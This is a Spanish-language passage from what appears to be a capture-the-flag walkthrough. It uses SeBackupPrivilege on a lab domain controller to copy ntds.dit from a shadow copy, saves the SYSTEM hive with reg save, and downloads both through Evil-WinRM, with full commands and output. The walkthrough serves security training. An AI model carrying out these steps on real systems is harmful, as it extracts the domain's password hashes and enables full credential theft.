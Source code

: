 ```batch
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{c2f9909f-0000-0000-0000-100000000000}\ [C:\]
		- Creation time: 5/15/2025 5:49:37 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3
		- Originating machine: DC01.neptune.thl
		- Service machine: DC01.neptune.thl
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %berserk% z:
-> %berserk% = {17343110-dc4e-4cdb-85e9-fd0d35943e06}
The  drive letter is already in use.
```

Ahora, usamos el **cmdlet Copy-FileSebackupPrivilege**, que es parte de los **archivos DLL** que importamos antes, para copiar el **archivo ntds.dit**:
```batch
*Evil-WinRM* PS C:\Temp> Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
```

Ya solo falta copiar el **archivo System Hive** con **reg save**:
```batch
*Evil-WinRM* PS C:\Temp> reg save hklm\system c:\Temp\system
The operation completed successfully.
```

Puedes revisar que ya tenemos el **archivo ntds.dit y el system hive**:
```batch
*Evil-WinRM* PS C:\Temp> dir
.
    Directory: C:\Temp
.
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/15/2025   5:49 AM            613 2025-05-15_5-49-37_DC01.cab
-a----         5/15/2025   3:35 AM             92 berserk.dsh
-a----         5/15/2025   5:52 AM       16777216 ntds.dit
-a----         5/15/2025   5:47 AM          12288 SeBackupPrivilegeCmdLets.dll
-a----         5/15/2025   5:47 AM          16384 SeBackupPrivilegeUtils.dll
-a----         5/15/2025   5:52 AM       15773696 system
```

Descarga estos dos archivos:
```batch
*Evil-WinRM* PS C:\Temp> download system
Info: Downloading C:\Temp\system to system
Info: Download successful!
*Evil-WinRM* PS C:\Temp> download ntds.dit
Info: Downloading C:\Temp\ntds.dit to ntds.dit
Info: Download successful!
```
